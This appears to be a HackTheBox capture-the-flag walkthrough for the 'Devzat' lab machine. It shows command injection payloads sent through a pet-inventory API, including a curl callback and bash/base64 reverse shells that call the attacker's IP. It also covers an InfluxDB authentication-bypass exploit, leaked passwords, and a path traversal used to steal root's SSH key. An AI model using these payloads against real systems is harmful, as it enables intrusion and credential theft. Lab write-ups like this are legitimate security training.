


# HACKTHEBOX: Devzat

Devzat is a medium difficulty Linux box that features an ssh chat server. The chat server isn't vulnerable, but another site on the box has an API and an exposed git repository.
Examining the source code from the git repo reveals that the API is vulnerable to remote code execution, which gives the initial foothold on the machine.
After gaining access to the machnine, we find that InfluxDB is available to localhost on port 8086 and is vulnerable to CVE-2019-20933, which leaks credentials for the user.
Use the credentials to log in as a user and view backups for the development chat server running as root on localhost port 8443. The backups contain plaintext credentials, which can be used to access a development feature to read arbitrary files as root.

Note: all wordlists used in this writeup come from [SecLists](https://github.com/danielmiessler/SecLists).

## Recon and Enumeration
First run an nmap scan on the box. SSH is running on port 22, and HTTP is running on port 80. Port 8000 is also running another SSH server that seems to be implemented in Go.


##### Web app on port 80
Port 80 shows a web application on the box. It shows that there's a chat server called *Devzat*.


The web application also shows instruction on how to connect to the chat server running on port 8000.


##### Exploring the chat server on port 8000
Attempting to connect to the ssh server gives an error.


A quick google search shows that adding the argument `-oHostKeyAlgorithms=+ssh-rsa` fixes the issue. Connecting to the ssh server shows an interesting chat server. There are several chat commands such as `/help` and `/commands`. After exploring a bit, there doesn't appear to be anything obviously exploitable.


##### Enumerating pets.devzat.htb
Because the address resolves to the hostname `devzat.htb`, a scan for virtualhosts is a good idea.
A ffuf scan using the `subdomains-top1million-110000.txt` wordlist shows a single virtualhost: `pets.devzat.htb`.


Visiting `pets.devzat.htb` shows a web application used for a pet inventory.


At the bottom of the page is a form with two fields: one to enter the name of a pet and the other to specify the kind of species.


For example, adding a Cat named alterego adds the pet to the table.


In the meantime, run a ffuf scan on `pets.devzat.htb` to search for subdirectories and other web objects. Using the wordlist `raft-large-words.txt` shows that there is an exposed `.git` folder.


Run the command `wget -r http://pets.devzat.htb/.git` to recursively download the contents of the `.git` directory.


Running `git log` shows that there are two commits in the git repo.


Since only the `.git` directory is available, resetting the git repo to the most recent commit will bring back the source code and other files. Notice there is a Go program called `main.go`.


Examining the contents of `main.go` shows that the function `loadCharacters` is vulnerable to command injection with the `species` field.


Intercept an *Add a Pet* request with BurpSuite and inject a shell command into the species field. Sending the payload with a tempered species field confirms command injection by `curl`ing the attacker's machine.
```json
{
    "name":"alterego",
    "species":"cat; curl 10.10.14.100:8000 #"
}
```


## Exploitation and User.txt
Sending the the following paylaod fails to drop a reverse shell.
```json
{
    "name":"alterego",
    "species":"cat; sh -i >& /dev/tcp/10.10.14.100/9999 0>&1 #"
}
```

Since the failure may be due to lots of special characters, it may need to be URL encoded, however this fails as well.
```json
{
    "name":"alterego",
    "species":"cat%3b+sh+-i+>%26+/dev/tcp/10.10.14.100/9999+0>%261+%23"
}
```

Eventually, base64 encoding the payload successfully drops a reverse shell as the user *patrick*.
```json
{
    "name":"alterego",
    "species":"cat; echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTAwLzk5OTkgMD4mMQ== | base64 -d | bash #"
}
```


##### Upgrading the shell
Upgrade the shell with the inputs and steal patrick's private ssh key.
```
python3 -c "__import__('pty').spawn('/bin/bash')"
^Z
stty -echo raw
fg
export TERM=xterm
```


SSH into the machine using patrick's ssh key for a better shell.


##### Hacking catherine
View other users on the machine. `cat /etc/passwd` shows that `root`, `catherine`, and `patrick` have shells. The user `catherine` has the flag `user.txt` in their home directory. Privilege escalation to catherine is required.


##### Exploring patrick's home
Patrick has three directories in their home directory. The `go/` directory is just the GOPATH. The `pets/` directory contains the source code for the pets inventory API, which we have already seen and exploited.
Lastly, the `devzat/` directory contains the source code for the *Devzat* chat server on port 8000. Inspecting the code reveals some hard-coded conversations containing valuable information.


Viewing the contents of `devzat/devchat.go` shows a hard-coded conversation between patrick-admin and patrick-catherine.

Based on these conversations:

1. There may be a dev instance (of something) on port 8443
2. The source code may be in backups.
3. The dev instance may require a password.
4. InfluxDB may be setup

Running `netstat tulpn` shows listening tcp and udp ports. Localhost appears to have ports 5000, 8086, and 8443 open.


##### Exploring port 5000
According to `netstat`, the program `petshop` is running on port 5000. Forward port 5000 to explore it some more with `ssh -L 5000:localhost:5000 patrick@devzat.htb -i patrick.key`.


Visiting `localhost:5000` in the web browser shows that it is the pet inventory we found earlier on `pets.devzat.htb`. This can be confirmed by viewing `/etc/apache2/sites-enabled/000-default.conf`. Port 5000 is proxied to `http://pets.devzat.htb:80`. Because we already explored this, lets move on.


##### Exploring port 8086
Port forward 8086 with `ssh -L 8086:localhost:8086 patrick@devzat.htb -i patrick.key`. To discover what's running on port 8086, run an nmap scan on the port with `nmap -p 8086 -AT5`

According to the nmap scan, InfluxDB version 1.7.5 is running on port 8086. A quick google search for "InfluxDB 1.7.5 exploit" shows an [automated script for CVE-2019-20933](https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933), which exploits an authentication bypass vulnerability in InfluxDB before version 1.7.6

The script accepts a wordlist of usernames, and attempts to bypass the login using the username.

Since it's a python script with lots of requirements, it may be a good idea to create a python virtual environment to use this exploit.


Run the python script with `python3 __main.py__` and provide the `xato-net-10-million-usernames-dup.txt` wordlist. The script allows the attacker to insert a query to the *devzat* database as the user *admin*.


According to [InfluxDB documentation](https://docs.influxdata.com/influxdb/v1.8/introduction/get-started/), the InfluxDB equivalents of SQL tables are *measurements*. To show all measurements, run the query `show measurements`. According to the query, there is one measurement called `"user"`.


Running the query `select * from "user"` leaks credentials for wilhelm, charles, and more notably, **catherine**.


Back in patrick's ssh session, run `su catherine` and use the password `woBeeYareedahc7Oogeephies7Aiseci` to log in as catherine. 


## Privilege Escalation and root.txt
Running the command `ps fauxww` shows all the running processes. There is a devchat instance running as root that we have not accessed before

This must be the development server mentioned earlier in the conversation between patrick and catherine:
> patrick: I implemented it. If you want to check it out you could connect to the local dev instance on port 8443.
> ... \
> patrick: I left the source for your review in backups.

Check `/var/backups` and sure enough, there are two backups: `devzat-dev.zip` and `devzat-main.zip` accessable only to catherine.


Download the `devzat-dev.zip` file and examine its contents.


Grep for possible passwords with `grep -ri 'password'`. The file `commands.go` looks like it may have hard coded credentials.
After reading through `commands.go`, there seems to be a special command in the development server. It accepts two arguments: a file (since the development server is running as root we should be able to read files in the /root directory) and a password (which is hardcoded as `CeilingCatStillAThingIn2021?`)


Port forward 8443 with `ssh -L 8443:localhost:8443 patrick@devzat.htb -i patrick.key` and log into the devchat server with `ssh -l alterego localhost -p 8443 -oHostKeyAlgorithms=+ssh-rsa`.


After logging into the chat server, running `/commands` brings a menu of available commands, and `/file` seems to be the proper command that calls `fileCommand`. After running the command `/file /root/.ssh/id_rsa CeilingCatStillAThingIn2021?`, an error is thrown that reports `The requested file @ /root/devzat/root/.ssh/id_rsa does not exist!`


Fortunately, the `/file` command is vulnerable to path traversal, and we can grab root's ssh key anyway.


Use the ssh key to log in as root.


